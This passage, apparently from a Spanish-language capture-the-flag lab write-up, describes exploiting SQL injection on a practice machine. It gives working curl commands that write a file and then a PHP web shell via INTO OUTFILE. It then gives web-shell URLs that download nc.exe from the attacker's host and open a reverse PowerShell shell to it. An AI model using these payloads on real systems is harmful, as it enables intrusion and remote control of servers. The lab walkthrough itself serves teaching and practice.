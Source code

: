 Para lograrlo fue necesario identificar el directorio en el que se encuentra la instalación, de acuerdo al [enlace encontrado](https://docs.microsoft.com/en-us/previous-versions/office/developer/sharepoint-2010/ms474356(v=office.14)) se indica que por predeterminado la ruta suele ser `c:\inetpub\wwwroot`, permitiendo de esta forma complementar hacia dónde debería dirigirse la escritura del script.

Después de probar con diferentes payloads respecto al escape de las barras (`\`), dado que la respuesta del servidor es identificada como un `500 Internal Server Error`, se realizó una prueba de la escritura mediante `curl -i http://10.10.10.167/view_product.php -X POST -F "productId=26 UNION ALL SELECT 'Hello world' INTO OUTFILE 'c:\\\\\\\\inetpub\\\\wwwroot\\\\test.txt'-- -"` logrando escribir satisfactoriamente al archivo indicado.

***En este punto es importante recalcar para futuros escenarios similares que no siempre es verdad que porque la respuesta del servidor sea 500, significa que no se esté ejecutando el payload indicado.***

![Petición creación de archivo](images/exploit_5.png)

Visualizandolo en el servidor.

![Visualización en navegador](images/exploit_6.png)

Permitiendo de esta manera cambiar el payload a `curl -i http://10.10.10.167/view_product.php -X POST -F 'productId=26 UNION ALL SELECT "<?php system($_GET[\"cmd\"])?>" INTO OUTFILE "c:\\\\\\\\inetpub\\\\wwwroot\\\\srrequiem.php"-- -'` logrando así tener un script listo para ejecutar comandos en la máquina.

![Webshell](images/exploit_7.png)

Por lo que se estableció una reverse shell haciendo uso del binario `nc.exe`, subiéndolo a la máquina mediante `http://10.10.10.167/srrequiem.php?cmd=powershell.exe%20iwr%20http://10.10.14.16/nc.exe%20-outfile%20c:\windows\temp\nc.exe` montando previamente el servidor web donde se encuentra el binario a descargar. Para ejecutarlo posteriormente con `http://10.10.10.167/srrequiem.php?cmd=c:\windows\temp\nc.exe%20-e%20powershell.exe%2010.10.14.16%201234`, logrando así acceso de una manera más interactiva.
